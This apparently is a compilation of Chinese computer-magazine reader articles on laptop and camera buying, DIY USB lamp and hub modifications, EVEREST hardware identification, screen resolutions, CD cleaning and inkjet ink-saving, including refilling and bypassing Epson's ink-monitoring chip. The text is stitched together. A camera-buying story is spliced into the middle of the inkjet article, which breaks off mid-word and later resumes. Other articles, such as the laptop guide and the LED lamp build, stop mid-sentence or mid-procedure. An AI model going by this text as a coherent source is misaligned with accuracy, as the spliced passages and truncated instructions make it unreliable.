既然是新手，肯定对于笔记本硬件的知识知之甚少，其实笔记本电脑的主要硬件并不多，并且和台式机有异曲同工之处，无非就是CPU、内存、硬盘、光驱、主板芯片组、显卡，至于声卡之类的则比较次要。这些资料在网上非常容易查到，所以大家在购买前不妨先上上网查一些相关资料，到论坛里面去查找一下，那些发烧友对于你所青睐的机器的使用评价，看看一些知名报刊杂志和有专门的笔记本专题的门户网站对于你所想要购买的机器做的评测。

### 2. 弄清购买笔记本电脑的主要目的

究竟你购买笔记本电脑是什么干什么用的，是主要用来上网、打字，还是玩游戏、设计图形？要不要经常用？对于不同的人可能会有不同的答案。有些人可能会比较常用到笔记本，既要用笔记本电脑来上网、打字、还要玩游戏、设计图形等等，他们对笔记本的依赖性比较大，而有些人则只是有时要用一下笔记本，而有些人的消费能力较强，买笔记本是为了赶时髦等等。

### 3. 进行经济预算

经济预算的依据除了要看你买笔记本电脑的主要目的是什么外，还要看你的经济承受能力有多强？经济承受能力强的，即使买笔记本电脑的主要目的是用来打打字和上上网，也要买好一点的，因为谁都不知道自己以后会不会用笔记本电脑来做一些比较复杂的工作，而且配置越高的笔记本用途就越广，也越好用，不要过于迷信够用就好的原因。因此，对于经济承受能力强的消费者而言，不论买来做啥子的都要买好一点的，预算可高一些；而对于经济承受能力较差的朋友来说，则要多算计，预算可少一些，在配置上尽量做到够用就好，但不要过于勉强，如确实因工作需要的，可买配置高一些的笔记本，哪怕借钱预算也要多一些，否则买回来后不能满足你的工作需要，致使工作效率偏低是得不偿失的。

### 4. 选定几款“候选”笔记本电脑

做好以上的工作，我们就要选定几款“候选”的笔记本电脑了。要很好地完成这一“任务”，我们可以到看看一些知名报刊杂志，然后再进行确定。另外，为了能查到更多相关产品的资料，我们可以在有专门的笔记本专题的门户网站里查找相关产品的详细参数（见图1）。当然，我们也可以用搜索工具来搜索候选产品的技术参数资料，查到的产品资料越多，对比就越仔细，越容易选到合适的笔记本电脑。



有些朋友可能会喜欢选定报刊推荐的一款笔记本电脑作为自己的购买对象，但这样做容易出现当你到电脑城后却发觉没你要的那款笔记本电脑卖，这样就很麻烦：买商家推荐的吧，自己对它们不熟悉，不知信不信得过，会不会买错；不买，再回家上网找资料吧，又很麻烦。另外，有些经销商为了吸引消费者的目光，在媒体报“虚价”，即有价无货的那种，所报的价很低，通常比正常的售价低很多，而当你到了他们店铺后，经销商会告诉你说没货了，然后再推荐另一款性价比很低，但可以令他们赚更多钱的笔记本电脑给你。并饶动三寸不烂之舌，极尽骗人信任之能事，千方百计地要你买他们推荐的产品。所以，我们要确定2到3款的各方面情况类似的笔记本电脑作为候选品，这样做可以令你有更多变通和实地对比的余地，从而顺利地买到称心如意的笔记本电脑。此外，别忘了要将

### 第二点：现场购买时要做的工作

利用网络确定了二三款候选的笔记本后，就要到电脑城里来与商家面对面地“短兵相接”了。有道是“无奸不商”，所以，这一阶段我们可要打醒十二分精神哦。具体来说，在这一阶段我们要做好以下几项工作：

-   1. 再次杀价
笔记本电脑的价格一般有市场价、底价、成交价之分，通常，媒体上面的报价只是市场价，而不是底价，所以，我们还有讨价还价的空间。上面我们已在电话里与经销商讨价还价了，为了能用更低的价格买到笔记本，我们到现场后还要进一步地杀价，反正现在是买方市场，杀价有赚无赔，当然，成交价最终要多少就要看阁下的杀价功力了，不过，能杀到底价成交的是非常少的。

-   2. 检查清楚赠品和附送品
一台新的笔记本电脑箱里面除了一台笔记本电脑外，往往还附带有一些软件和硬件、保修卡、说明书。如果遇上促销之时还可获赠一些礼品（见图2），这些我们在付款前要注意一下，要问清楚里面有哪些附送品和赠品，然后再检查清楚有没有缺少的东西。



-   3. 初步识别是不是返修机
要准确地识别这一点比较复杂，例如要检查BIOS等，这方面的文章可参考今年第1期的《巧辨本本返修货》，也可以叫个电脑高手去识别，限于篇幅，这里就不便多说了。其次，笔者有一个比较简单的方法，就是看机器的表面螺丝有没有被拧过的痕迹，如果有，则说明这台笔记本电脑可能是个返修品或是曾被打开过，打开的目的可能是检修，也可能是“抽”走其中某个或某几个重要的零件，换上次等的、可替换的零件。如碰上这种情况，你可要要求更换另一台或者干脆到别的地方去买了。

-   4. 要看清发票或收据
成交时如果对方没有开发票或收据的意思，你可以向其索取。在付款前还要看清发票或收据上有无清楚地注明所购笔记本的牌子、型号、数量、价格、收款单位、收款日期、收款人签名、“三包”（包退、包换、包修）日期及其他具体事项等。因为现在的奸商很多，许多奸商都有欺骗消费者的行为，对笔记本卖出后出现的问题能赖就赖，能拖就拖（特别是一些买杂牌货的JS更是如此），而且还常常动用“踢皮球”的战术，将顾客当皮球踢来踢去。但如果我们购买时注意好了这些细节的话，买回来后机器即使出现了毛病也有证可查，可最大限度地减少因此而造成的损失。
最后，最好能带个懂笔记本电脑行情和技术的人去帮忙参考，这样可大大减少你被“宰”的概率。

### 第三点：购买后要做的工作

立即使用，刻不容缓，并且要连续长时间地使用。买回笔记本电脑后最好要立即长时间（最好三天三夜）地连续使用或持续性地开着，这样才能够准确地判断出这台笔记本电脑的质量好坏。如果经过长时间连续工作都没问题发生，表明该机的质量良好，而如果出了问题，我们可以根据“三包”规定或双方约定的条款及时退换。这样也可避免买回的笔记本电脑由于没长时间使用，等以后发现它出毛病时已过了保退或保换期，只能修了，这样会给自己带来不必要的损失。

小结：对于许多新手来说，他们要购买笔记本时往往喜欢拉一个自认为熟悉笔记本电脑行情和技术的人去，以为这样就准能买到合自己心意的笔记本电脑了，殊不知这是一个误区，因为被你拉去的人他又不是你肚子里的虫子，当然不知道你的所思所想，以及你的实际情况如何了，即使是是对笔记本电脑的市场行情和技术有深入的了解，能帮上你的忙也是比较有限，关键还是靠自己。因此，欲买到称心如意的笔记本电脑，还是自己懂点笔记本电脑的市场行情和硬件的常识好些。

（上海 泼）

## 文稿夹加装照明灯

经常进行文稿输入的用户，在工作中都有这样的体会，当双手在键盘上忙碌的时候，眼睛也没有闲着。虽说进行文稿输入已基本实现盲打，眼睛可以不看键盘，但是总得看原稿吧，还得不时光顾一下屏幕，看有没有打错的。因此，为了尽量减少眼睛的位移，避免脖子的移动，笔者在电脑城买了一个文稿夹。但如果遇到天气不好、光线不足时，得把眼睛凑上去才看得清。如果再增加个台灯就好了，可是电脑桌上已没有太多的地方，突然想到电脑城中有便携式笔记本USB照明灯出售，不妨将这种照明灯集成到文稿夹上，下面就跟笔者体验一下DIY的乐趣。

### 准备原料

这种USB照明灯的原理很简单，使用的是白光LED，再加个电阻就行了。考虑到文稿夹比较大，一个LED照明不能满足需要，因此，笔者购买了五只白光LED，价格也不贵，一般的是1元/个（不同的地方可能价格有所不同）。
为了将这五个LED固定起来，笔者找了一小块万能实验板（见图1）。



还找了一个软盘外包装盒（见图2），利用其塑料外壳做了一个灯罩。照明灯的电源由电脑USB接口供应，因此，还需要准备一根USB电源线，这个容易找吧，可以使用一些旧的打印机或扫描仪的USB数据线，实在找不到买一根新的USB延长线也不过三五块钱。再找一根铜质的双芯电源线，电话线也可以，主要用以固定LED。



为了使用上的方便，易于控制，还需要增加一个开关（见图3）。
另外，还要准备一些常用的工具和材料，如电烙铁、焊锡丝、热熔胶、热缩管、细导线等。


### 制作过程

-   材料准备好后，就可以动手了。
1. 首先制作灯头，将五个LED依次插入万能实验板中（见图4）。实验板上已打好了孔，线路之间需要用导线搭焊，是电子爱好者的最佳选择。在插LED的时候要注意的是，间距要相等，LED是有极性的，接反的话可不会亮哦，为了焊接的方便，最好插的时候将LED的引脚放一致。LED的极性也是容易判断的，用万用表测电阻就可以了，如果嫌这样做太麻烦，还可以看LED的外观。如果是新买的，则管脚长的为正极，如果引脚被剪断了，还可以通过看LED管芯截面积来判断，截面积小的为正极。



-   2. 用电烙铁将插好的LED焊接在实验板上，每个LED引脚之间用细导线焊接好。找一个软盘包装盒做个灯罩。将包装盒剪下一块，然后根据LED的位置，用电烙铁在包装盒上钻几个孔（见图5），将焊好LED的电路板塞进去（见图6）。




-   3. 找来两根细导线，最好是不同颜色的，以便区分，将导线分别焊接在LED的引脚上。由于USB接口提供的电压是5V的，而LED的额定工作电压在4V左右，直接将LED接在USB口上，有可能因电压过高而导致LED损坏。因此，要想使用USB接口，还需要在电路中再增加一个限流分压电阻，以降低电压（见图7）。

## 给 USB HUB 强身健体

现在使用USB接口的数码设备越来越多，为了缓解USB接口紧张的问题，笔者购得一款一转四的USB HUB，用起来很方便，但在插接一些耗电量较大的设备时，有点力不从心的感觉，可能是USB接口供电不足而造成的。众所周知，主板集成的USB接口工作电压为5V，可以提供最大500mA的电流，而四个USB口如果同时使用，则每个USB接口分摊的电流就不足了。因此，就有必要增加USB接口的功率，不少报刊都有过相关的介绍，但需改动主板的USB接口，显得过于复杂。

如何利用简单的方法增加USB HUB的输出功率呢？笔者将购得的一转四USB HUB拆开，在电路板上发现了一处空的地方，上面有“EXT 5V”的字样（见图1），“EXT”应该是“扩展”这一词的缩写吧？看其焊点的形状，很像是随身听上常用的电源接口，是不是厂家为了节约成本，没有焊接扩展电源插座呢？将电路板翻转过来，查其走线，发现这几个焊点正好与USB接口的电源线相通，看来笔者的判断是正确的。一个电源插座不值几个钱，何不在电路板上焊接一个扩展电源插座，再购买一个外置电源，不就可以给USB HUB“强身健体”，增加其USB接口的功率了吗？

从电子市场购得一个电源插座，在电路板上还留有滤波电容的位置，这是为了增加电源的稳定性而设置的，因此，再购一只220微法的滤波电容，两个元件加起来只有几角钱，如果家中有损坏的随身听，还可以从上面拆零件用，那就不花成本了。

为了防止电烙铁上产生的静电损坏电路板上的集成电路，将电烙铁加热后，断电利用余热焊接。电源插座的引脚是符合行业标准的，很容易焊接。而滤波电容是有极性的，要分清楚，好在电路板上都标有图示，按照其图示焊接就行了（见图2）。

原来的USB HUB外壳上并没有留有电源插孔，因此，焊接了扩展电源插座后，还得将外壳加工一下。用加热的电烙铁在外壳上相应位置烫个孔，再用小刀进行修整，然后找个电源插头测试一下，能顺利插进去了。

到哪去选择合适的扩展电源呢？一些随身听上常用一种外置电源（十元左右），尽量选择6V电压、输出电流大一些的。USB接口所用的电压为5V，因此，还得增加一个电压转换电路；增加一个7805稳压集成块就行了。将购得的电源线从中剪断，找出正负极，将7805加入电路中，引脚套上热缩管绝缘（见图3）。如果USB设备所需的电流较大，7805的发热量大，还可以在其背面增加一散热片。

整个电路比较简单，经试用，安全可靠，以前不能使用的移动硬盘也照用不误，说明改造还是有效果的，以极小的投资，获得较大的回报，还是比较合算的吧？（江苏 天师）

## 香港中英街购DC连环骗术

前一段时间看了很多朋友写的文章，介绍在香港购买数码产品的经历，我借贵刊一角，将我们在香港特别行政区的中英街购物的经历写下来，供大家参考，希望对那些想到香港购物的朋友有所帮助。

### 诱饵

我们委托酒店办理手续并联系车和导游。大约过了十分钟车就到了关口，车上还有两名陌生男子。路上导游热情地和我们套近乎，并向我们介绍中英街DV、DC比较便宜，可以考虑购买。说得我们一行人心里痒痒的，购物欲望大增。

### 找托

入了关，看到了中英街的真面目。所谓的街其实很窄，只有一百多米长，房子又矮又旧，充其量也就相当于内地的小胡同。两边是清一色的店铺，店铺门口站满了拉客的伙计。我们接连逛了好几家，感觉东西大同小异。除了DC、DV外，就是手机或是服装。在一家店铺里，一名伙计热情地拿出一款数码相机，号称是500万像素的，体积只有一包香烟大小，非常小巧，价格也不贵。与我们同行的一名陌生男子经过一番讨价还价，以一千元成交并送256MB的SD卡一张。买好后，此人又到别处去逛了，我的两位同事经不住诱惑，每人也买了一台。

### 连环骗局

正在大家准备离去时，刚才购机那名男子突然出现了，声称此款数码相机的制式不对，在内地不能用。伙计也承认的确如此，要另外购一套读卡器，价格1900元，而且现在没有货。我们立马傻了眼，要求退货，伙计的笑脸立马变了，称不好退货。我们与他交涉了1个小时无结果，他一副死猪不怕开水烫的样子，反正钱已进他的腰包（此时谁也没有注意到那名男子已经离开）。这时导游出场了，他说购买这种走私的DC，过海关不但会被查没，还会课以罚款。大家顿时觉得上当了。

正当我们陷入僵局的时候，此人又神秘地出现了，询问伙计是否有一种S4型号的DC，并声称此款数码相机可在内地使用，并有保修。伙计说有并立马从柜台里拿出一款数码相机，声称是400万像素的，但价格要5000。并称购买此款相机可以负责送出关。于是此人作秀一般地一通砍价，最终以4000元成交。扣除之前付的1000元，实付3000元。伙计叫人将他连人带机送出了关。这时导游第二次登台，催促我们时间不多，马上要闭关了，这里是香港地界，处理起来比较麻烦，花点钱消灾算了。

事已到此，两位同事也只能依葫芦画瓢，经过一番猛砍，最终每人又砍下1000元（感觉这时候钱已不是钱了），以每台3000元成交。扣除1000元，每人再付2000元。出关以后，那两名男子已不见了。导游称他们已先行回去。回内地后，我仔细看了一下，此款所谓的S4其实就是内地的拍得丽数码相机，标价也就1500元。

### 总结

这次事情发生后，我觉得整个事件就是一个骗局。从导游开始给我们下“药”，找托儿购物引你上钩，紧接着设连环套使你别无选择，只能顺着骗子们精心设计好的圈套一步步地往下钻。所以购物还是在内地好，尽管到处都有JS，但是比较有保障，而且发生了问题解决起来比较容易。切莫贪小便宜，而因小失大。

以上是我的同事和我在中英街购物的真实经历。顺便说一句，与我们同行的共有两名男士，另一位也不是吃干饭的，他用同样的手段，诱引我的另一位同事购买了一对价格不菲的劳力士手表。

> （江苏 苏禹）

为了给主板安装合适的驱动程序或者厂商特有的相关软件，我们需要了解自己主板的型号和使用的芯片组。我们同样可以用小巧的EVEREST测试软件来不开机箱了解我们的主板。EVEREST下载地址依然为http://dl.pconline.com.cn/html/1/5/dlid=7695&dltypeid=1&pn=0&.html。

### 入门篇：认识主板型号

启动EVEREST，打开“菜单”下面的“主板”展开菜单，点击“主板”选项，在右边的窗口中就会显示出主板属性（见图1）。“主板名称”就是我们的主板型号，也是我们需要寻求厂商技术支持时提供的主板型号。在知道主板型号后，厂商通过型号查找自己的数据库就能了解这块主板的物理特性，同样EVEREST也有自己丰富的数据库，让我们不开机箱就能知道主板的物理特性。这些信息全部显示在“主板物理信息”中。如这块主板CPU插槽为1个Socket 478插槽，拥有5个PCI和1个AGP口，另外主板还集成音频、千兆网络、IEEE 1394控制器等等。不用打开机箱我们也能对主板的相关属性一目了然。由于厂商一般都会在网站上提供主板的相关驱动程序和应用软件下载，因此只要打开“主板制造商”信息中的链接就可以方便地找到这些驱动和应用软件。

小提示：对于某些OEM主板来说，EVEREST也能查出原始的主板生产厂商及该主板实际型号，使我们能够通过查找型号给主板安装原始厂商的各种应用软件，让OEM主板也有名牌主板的待遇。

### 进阶篇：认识主板芯片组

主板最重要的功能、处理器支持能力、内存支持大小等都是由主板芯片组决定的。因此要深入了解自己的主板，必须要了解芯片组。

打开EVEREST“菜单”下面的“主板”展开菜单，点击“芯片组”选项，在右边的窗口中就会显示出芯片组属性。现在主板常见有单一主板控制芯片和南北桥控制芯片两种结构。这块实例主板为南北桥结构。点击“设备描述”中的“北桥”，下面的窗口中就会显示北桥芯片的属性（见图2）。

其中“北桥”表示主板的北桥芯片型号，这里显示主板芯片组为i865PE，Springdale则是北桥芯片的开发代号。“修订/Stepping”，则相当于芯片组的版本号和补丁，一般来说这个编号越新越好。内存控制器表示这芯片组支持的内存模式，如这块主板支持Dual Channel双通道内存，同时也已经成功启用双通道内存模式。

错误校正表示此芯片组是否支持ECC (Error Checking and Correcting，错误检查与校正) 内存。一般民用芯片组都不会支持服务器/工作站级别芯片组的ECC内存，这样即使这种芯片组搭配了ECC内存，也只能当普通内存用。

AGP控制器表示芯片组的AGP处理能力以及相搭配的AGP显卡的AGP处理能力。AGP 3.0版是AGP构架的最终版本，接替它的就是PCI Express X16。

最后依然能够通过芯片组制造商提供的相关链接了解到更详细的产品信息和驱动程序。点击“设备描述”中的“南桥”，下方窗口就会显示南桥芯片的属性，不过内容要比北桥信息少，只有芯片组名称、版本、封装方式等基本信息，但也可以通过厂商链接了解更详细的信息（见图3）。

## 教你正确清洁光盘

光盘表面很容易沾上灰尘，导致播放CD时产生声音或者图像的跳跃，甚至无法完全播放。此时，你应该考虑清洁一下光盘了。你先准备一些较柔和的清洁剂或肥皂、清水、一块软布（在一些音乐制品商店可买到很便宜的垫布），清洁时应从盘的中心向外面擦拭，并且不要顺着存储数据的轨道方向擦拭。与许多人想象的相反，CD盘实际上也很容易受损伤。所以在擦拭盘的表面时一定要非常小心，尤其要避免将指纹留在上面，千万不要使用家中常用的烈性清洁剂。清洁后，一定要记住将CD盘晾干，当然不能在阳光下曝晒。

> （北京 天马）

## 笔记本电脑屏幕分辨率一点通

在购买笔记本时，我们经常会听到对笔记本分辨率的两种说法，比如说一款笔记本的分辨率为1024 × 768或者说是XGA分辨率，那么这两种说法有什么关系呢？下面我们来了解分辨率与分辨率标准的关系。现在笔记本屏幕主要有标准屏幕（4:3）和宽屏幕（16:9或者16:10）两种，它们的具体分辨率和对应标准如下：

### 4:3 标准屏幕

- VGA: Video Graphics Array（视频图形阵列），分辨率为640 × 480，现在笔记本中已经看不到这样的分辨率，此分辨率逐步应用于高端小型便携设备上。
- SVGA: Super Video Graphics Array（超级视频图形阵列），从名称就可以看出是VGA的升级标准，800 × 600分辨率，最大可以用于12.1英寸LCD上，但由于像素低，所以也已被淘汰。
- XGA: Extended Graphics Array（扩展图形阵列），1024 × 768分辨率，是目前笔记本普遍采用的LCD分辨率，从10.4英寸到15.1英寸笔记本LCD都在使用这种分辨率。
- SXGA: Super Extended Graphics Array（超级扩展图形阵列），分辨率1280 × 1024，此分辨率主要用于桌面LCD，笔记本使用较少。
- SXGA+: Super Extended Graphics Array+（超级扩展图形阵列+），SXGA的扩展标准，专门为笔记本LCD定义的分辨率，分辨率为1400 × 1050，用于14.1英寸或者15.1英寸以及更大的笔记本LCD上。
- UVGA: Ultra Video Graphics Array（极限视频图形阵列），支持最大1600 × 1200分辨率，由于此分辨率对制造工艺要求较高，价格也比较昂贵，目前只用于移动工作站级别的15.1英寸或者17英寸大屏幕笔记本LCD上。

### 宽屏幕标准

- WXGA: Wide Extended Graphics Array（宽屏扩展图形阵列），是XGA屏幕的宽屏版本，分辨率为1280 × 800，主要用于15.1英寸或12.1英寸宽屏笔记本LCD。
- WXGA+: Wide Extended Graphics Array+（宽屏扩展图形阵列+）: WXGA的扩展，分辨率为1280 × 854，显示比例为15:10，少数15英寸宽屏笔记本用此分辨率。
- WSXGA+: Wide Super Extended Graphics Array+（宽屏超级扩展图形阵列+）: 显示分辨率1680 × 1050，用于15英寸及以上的宽屏笔记本LCD以外。
- WUXGA: Wide Ultra Video Graphics Array（宽屏极限视频图形阵列）: 显示分辨率可以达到1920 × 1200，但高昂的成本和售价使其目前只会用于顶级工作站笔记本中，如Apple PowerBook G4。

## 喷墨打印机耗材节省完全方案

目前彩色喷墨打印机价格可谓相当便宜，但可惜的是，限于工作原理以及厂商市场策略的因素，喷墨打印机耗材成本始终居高不下。毫不夸张地说，如今打印机不是买不起而是用不起。不过，如果我们在使用时运用一些技巧，还是可以很大程度上节约耗材。

### 文本打印捷径——廉价的填充墨水

兼容耗材在促进喷墨打印机市场发展，制约原厂墨盒暴利，乃至提高用户的环保意识等方面都发挥了积极的作用。一般而言，原厂墨盒在墨水用尽之后不必立即购买新的墨盒，可以通过注射填充墨水来使之继续使用。

这里给大家示范操作是在耐力黑色兼容墨水和Lexmark 3200的12A1970黑色墨盒上进行的。这款耐力黑色兼容墨水是专门针对Lexmark的黑色墨盒设计的，因此有不错表现。首先大家要根据自己的产品（打印机）购买相应填充墨水，注意自己选购的是黑墨盒、彩色墨盒还是照片墨盒。

接下来的工作就是取出待充墨盒，并且打开耐力墨水包装，里面共有3个工具，分别是固定夹、专控器和兼容墨水，基本上其它品牌的兼容墨水也是这样。因为墨盒很难平放在桌面上，不利于操作，因此最好使用固定夹把墨盒定住，这样会大大减小操作失误的几率。然后，在墨盒顶端用针头扎孔，扎孔的位置要离开通气孔一段距离（见图1）。

下一步将墨水瓶的针头插入钻孔，用力按压墨水瓶灌注墨水。要注意的是，加墨时不要太快，防止从喷嘴流出太多墨水。灌注完毕后拔出墨水瓶，用透明胶或速干胶水封闭钻孔。最后将墨盒静放数分钟，等到墨盒不漏墨时用纸巾轻轻擦净打印头，然后安装入打印机（见图2）。

### 破解芯片干扰——彻底征服Epson墨盒

尽管自己灌注兼容墨水是很好的解决方案，但Epson采取了IC芯片监控的方式来防止这种行为。对于消费者而言，选择兼容耗材是自身的权利。一些名牌兼容耗材的效果还是相当不错的，并且价格低廉。

- 强行更换墨盒：事实上Epson的墨水容量监控是依照装入墨盒时打印机设置的纸张类型以及打印过的张数来计算判断的，大约打印100张A4后它就认为墨水已经耗尽，而此时墨盒中墨水还剩不少。如果大家此时不使用正常更换墨盒的方法，而是在打印头小车刚开始从右向左缓慢移动时强行关闭电源，然后小心缓慢地将墨盒架移动到更换墨盒位置（即打印机打开后的最左边），更换墨盒后再将墨盒架移动到开始的位置（如果像正常更换墨盒一样将它留在最左方，程序会出错并可能损坏墨盒架移动皮带轮和电机）。然后只要执行一下打印喷嘴清洗程序就可以正常使用了。

这种方法虽然简单，但也有不小弊端。首先强行更换墨盒的操作具有一定的危险性，弄不好就会损伤打印机。更加棘手的是，一旦强行更换墨盒，Epson的监控程序就会失控。有时明明已经没有墨水了，它还强行打印；有时墨水还有很多，程序却显示墨水用尽，拒绝打印。

- 使用软件破解程序：既然Epson的墨盒是通过可编程芯片来实现监控的，我们可以通过一些特定软件将其破解。著名的兼容耗材生产商Nomi推出了一款效果极为出色的破解软件，它能轻松破解Epson墨盒的监控，让我们随心所欲地填充墨水。该软件可以到http://down.hanzify.org/download/HB-Epson680.exe下载。

在使用Nomi前，先确保自己的打印机处于联机状态。更重要的是，Nomi要求打印机通过并口方式连接，这一点是千万不能遗忘的。由于Nomi的功能是将“墨盒已满”的信息写入IC芯片，因此大家在使用之前应先将墨盒填充墨水，顺序千万不能颠倒。

### 纸张更要节约——使用FinePrint缩印软件

或许是出于保护耗材销售的原因，大多数打印机厂商都不愿意开发优秀的缩印软件，这无疑给用户节约纸张带来诸多不便。通过我们为大家介绍的FinePrint缩印软件（下载地址: http://www3.skycn.com/soft/3022.html），几乎任何一款打印机都能实现4:1缩印，而且清晰度可以让人接受。FinePrint的安装十分简单，完成后会生成一个虚拟打印机。每当需要缩印的时候，只要选择这个虚拟打印机即可。

在执行打印命令后，FinePrint将打开一个对话框，对话框中包含“预览”、“信纸”、“表单工厂”、“设置”、“关于”五个选项卡，我们只要通过“预览”选项卡就可以设定FinePrint以何种方式打印，其余选项保持默认值即可。在“预览”对话框中的“布局”一项中可以选择输出的格式，有1、2、4、8和Booklet（小册子）五种格式（见图4）。

### 廉价照片输出——改装连续供墨系统

连续供墨系统的实质就是利用打印机墨盒在打印中向喷头源源不断地输送墨水的同时，墨盒内也需要自动吸入同等容量空气补## 购买DC无“奸”道

又到了周五，一周的工作也忙得差不多了，正巧还赶上领导出差。同事这几天一直说要买DSLR给他刚出生的宝贝儿子照相，研究了几天，经过权衡、比较，目标初步锁定Canon 300D。他对DSLR不熟，让我帮着参谋参谋，刚好我也准备买Nikon D70，于是吃过中饭，我俩直接直奔鼎好电子城，准备实地打探一番，如果合适则出手买下。

和往日一样，无数人冲上来恨不得把你拉到他们店里。当然不能因为他们而乱了方寸。定了定神，开始货比三家。进门第一家，一听说要Nikon D70套机，张口7100元，送电池、256MB存储卡和相机包。我们要求看看赠品，发现电池是没听说过的杂牌，存储卡也是SanDisk普通的低速卡，相机包就更没谱了，反正不会送LowePro或者CaseLogic的。我们说不要赠品，只要套机的Nikon D70机身和标配18-55镜头。JS见没什么油水，算了半天给了个税前6600元的报价。同事有些心动，准备今天就拿下。我说再多看看，这地方价格没谱，因为以前也遇到过某家店比别人便宜很多的情况（这种情况更要小心——见下文）。

### 购机指南

不要买那些没用的赠品，那些基本都是卖不出去的积压货。

一楼、二楼都走遍，问了十几家店铺，发现现价位明显分三个阵营：除了少部分受理不理报6800~7000元和个别极为热情报6400元的超低价格外，大部分都是6600~6700元的价位。这样我们心里就基本有了底。

### 购机指南

货比三家永远没有错，但不是说什么时候都去买最便宜的，要有刨根问底的精神，搞清楚是真便宜还是假便宜。

这时，我们在二楼一家自诩是“佳能总代理”的店铺（天晓得村里有多少个“总代”）被“拉”了进去。负责拉生意的MM报价6600元，有现货。我们说低于6400元就买。她犹豫了一下，说她做不了主，要带我们去和“经理”面谈，说经理在楼上（10楼）。不知道她葫芦里卖的什么药，走一趟看看。跟着她走了几个弯，走到一个电梯，却见她按的是下楼的按钮。我们问是怎么回事？她支支吾吾说要到B4转其他电梯，那样快一些。我晕，到了B4是地下停车场，又绕了几个弯上了另一部电梯直奔10层。

一出电梯，差点晕倒，不知道哪冒出来这么多人不住地吆喝“先生买数码相机吗？到这边来看看吧！”“我们家的货全，先生想要什么牌子的？”……定睛一看，这层已经是写字楼结构了，但里面各办公室实际还是店铺。电梯间里的全是“客客”（拉客人到店铺然后换取提成的人）。这时候带我们上来的那个MM生怕我们走丢了，在一个店铺门口使劲喊：这边这边。我们过去一看，好家伙，一屋子被分隔成N个小洽谈室，找到一个空座位下来，然后她就去找“经理”去了。过了老半天（估计正在为提成讨价还价），来了个男的，笑咪咪地问我们要什么机器。我们说300D套机不要赠品，他说没问题，6700元。我们说太贵了，楼下6400元就拿了。他把脸一沉，表情突然变得异常严肃，然后说“那个价位绝对做不了，电池肯定换成假的了。机器没准是样品机或者是翻修货……我们这的保证是正品行货，我们是佳能总代理。这样吧，不要票6600元怎么样……”我们说还是再看看吧，没等他说完我们就溜出了屋子。

回到电梯间，依旧是无数的客客在试图把你拉到某间屋子。刚才谈话那人根本就不是什么“经理”，只是一个讨价还价的主，拉我们上来那MM拿了提成早不知去向。这时候，更离奇的事情发生了：电梯间有5部电梯，我们等了快10分钟，总是上楼的。而且居然发现了同一部电梯连续两次开门都是上楼的！我恍然大悟刚才为什么要绕道那么远上这部电梯——这里连电梯都被做了手脚！为了留住买主居然把电梯改造成只有上楼才开门！赶紧拉上同事找消防楼梯。还好这边比较顺利，一口气跑到5楼柜台区，这才长出了口气。

### 购机指南

“客客”这种非正规渠道还是少接触为妙，天知道他们会把你带到什么地方，要出什么鬼花招。楼下柜台那MM见我们开的价格做不成生意，就把客人拉到楼上没有柜台的商家去拿提成，千万不要相信他们是一家公司。另外，买高档商品尽量不要带太多现金，尽量刷卡结算，哪怕商家要收手续费。最好不要一个人前往，那种混乱的环境里首先考虑的应当是安全。

我们边顺着扶梯下楼边讨论刚才的经历，真佩服这些商家，什么招术都能想得出。现在该去那报价6400元的看看名堂了。进了店，我们开价6350元，只要黑色机身，不要发票。店主犹豫了一下同意了。可是拿出了一台却是银白机身的，说黑色的马上去库房拿，说几分钟就到。

我们坐在桌子边一边聊一边等，店主不住地问我们是不是要买存储卡和电池。我们说要买Lexar或者SanDisk高速1GB的存储卡，他马上露出一副不屑的表情：“Lexar的没有正式进入中国市场，都是不正规产品，没地方保修，SanDisk从来没有正式生产过高速卡，市场上的都是假货……”“1G以上的卡都是微硬盘的，容易坏……”。简直满口胡言，市场里2GB、4GB的CF卡遍地可见，SanDisk和Lexar进入中国这么多年，到他嘴里就成了土匪产品。

这时候他切入正题了：“我们是XX牌存储卡和电池的正规代理，价格都好商量的……”。我连忙说不用了，谢谢。天知道那些杂牌的CF卡质量怎么样，价格里有多少水分。这时候，店主接了个电话，过了一会面露难色地对我们说：“黑色机身的现在库房缺货，如果你们需要我们可以从别的地方调货，不过时间得长一点，一个小时左右……”。我们连忙说“算了不用了，我们再看看吧！”

### 购机指南

当心JS低价虚晃一枪，醉翁之意不在酒。先用一个超低价把你砸晕，再想办法把钱赚回来。名牌的存储卡和电池，价格都比较透明，而且经过严格的质量控制把关，制造成本相对较高，渠道严格，底层经销商没有太多的利润，而杂牌的因为众所周知的原因，利润相当丰厚，所以经销商极力贬低其它品牌来推销自己的产品。见我们不买他们的卡和电池，他当然清楚他报的那个相机的价钱是赔钱的，于是就找了个理由把生意推掉了。

至此，已经逛了一个下午了。我说根据这个情况，套机的实际价位估计应该在6500~6550元之间了。剩下的就要看我同事强大的砍价功夫了。一楼找了家比较大的店铺，我们开出了6450元不开票的价格。经过几轮软磨硬泡，JS同意了，于是去提货。发票就不要了吗？当然得要，我们说算上刷卡手续费（村里一般规矩是20），6500元开票！JS一惊，拿计算器又算了半天，咬了咬牙，最后还是点头了……然后去其他柜台买了1GB的SanDisk Ultra，我说UV镜和相机包有时间去五棵松再买，没必要在这里浪费时间了，次价高还没的选。

### 购机指南

发票是尽量要开，保修还是用得着的。可先谈好不开票的价，然后适当加些价格（当然要自己先算好，可别超过了应该给的价位），JS一般都会脸色难看地同意。

至于刷卡手续费，银联规定是禁止收的。可是电脑市场有特殊的情况，利润相对商家支付给银行的手续费（一般是0.5%~1%，按批发算则适当少些）比较低，所以加一些手续费也无可厚非。当然可以在提出要发票的同时把这个“手续费”一同算进去。

（北京 Yao Leilei）

充平衡这一原理，将从墨盒通气孔补充空气改为补充墨水，不管墨盒给喷头输送多少墨水，都能及时补充同量墨水进入。补充墨水通过软管连接到打印机外的墨水大容器上，这样就能保证墨盒始终有足够的墨水。连续供墨系统主要由三个部分组成（见图5）。



外墨盒：这是打印机外面存放墨水的大容器，目前主要是以相应的塑料材料注塑的盒子为主。外墨盒一般要和打印机放在同一平面，要求墨水液面略低于打印机喷嘴。千万不能高于打印机喷嘴过多，否则压力过大，墨水会通过打印头流进打印机内部废墨仓里。

排管和排管支架：外墨盒通过软管向打印机输送墨水，按照打印机使用的颜色数将各色软管粘为一排，称为排管，4色打印机使用4排管，6色打印机使用6排管。排管的两边，一头接外墨盒，一头接内墨盒。排管采用含硅胶的软管，富有弹性、不易老化。

